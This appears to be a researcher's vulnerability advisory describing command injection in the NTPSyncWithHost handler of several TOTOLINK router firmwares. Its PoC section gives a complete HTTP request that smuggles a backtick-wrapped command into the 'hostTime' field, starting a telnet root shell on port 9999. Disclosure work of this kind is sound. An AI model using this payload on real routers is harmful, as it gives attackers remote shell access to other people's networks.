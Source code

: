 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A830R、3100R、A950RG、A800R、A3000RU、A810R

Version:A830R_Firmware(V5.9c.4729_B20191112)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/184/ids/36.html)

A3100R_Firmware(V4.1.2cu.5050_B20200504)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html)

A950RG_Firmware(V4.1.2cu.5161_B20200903)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/167/ids/36.html)

A800R_Firmware(V4.1.2cu.5137_B20200730)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html)

A3000RU_Firmware(V5.9c.5185_B20201128)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/168/ids/36.html)

A810R_Firmware)(V4.1.2cu.5182_B20201026)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/169/ids/36.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `system.so` binary:

In `NTPSyncWithHost` function,`hostTime` is directly passed by the attacker, so we can control the `hostTime` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 

> Complete vulnerability verification on A830R product



## PoC

We set `hostTime` as **`telnetd -l /bin/sh -p 9999`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 80
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/adm/ntp.asp?timestamp=1645599623766
Cookie: SESSION_ID=2:1645599614:2

{"topicurl":"setting/NTPSyncWithHost","hostTime":"`telnetd -l /bin/sh -p 9999`"}
```

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>



## Result
Get a shell!

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

